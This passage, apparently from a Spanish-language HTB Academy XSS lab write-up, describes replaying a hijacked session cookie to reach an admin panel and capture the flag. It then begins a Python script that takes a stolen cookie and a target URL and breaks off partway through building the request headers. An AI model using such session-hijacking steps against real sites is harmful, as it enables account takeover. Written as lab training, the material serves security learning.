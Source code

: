 Refresco la pagina para que se cargue el valor de cookie secuestrada y me de acceso al panel de administrador.

![alt text](../assets/images/HTB_Academy_XSS/image-71.png)

He obtenido la flag del ejerecicio.

#### Metodo 2: Script python

Creo un script en python al cual le doy como entrada el nombre de la cookie, el valor de la cookie, y la url donde atacar.

```sh
touch cookie_monster.py
nano cookie_monster.py
```

El codigo del script es el siguiente:

```py
import requests
from urllib.parse import urlparse

# Solicitar al usuario el nombre y el valor de la cookie
cookie_name = input("Ingrese el nombre de la cookie: ")
cookie_value = input("Ingrese el valor de la cookie: ")

# Solicitar al usuario la URL
url = input("Ingrese la URL (por ejemplo, http://IP_OBJETIVO/hijacking/login.php): ")

# Extraer el host a partir de la URL
parsed_url = urlparse(url)
host = parsed_url.netloc

# Construir los headers adaptados
headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "pt-BR,pt",
    "Cache-Control": "max-age=0",
    "Connection": "keep-alive",
```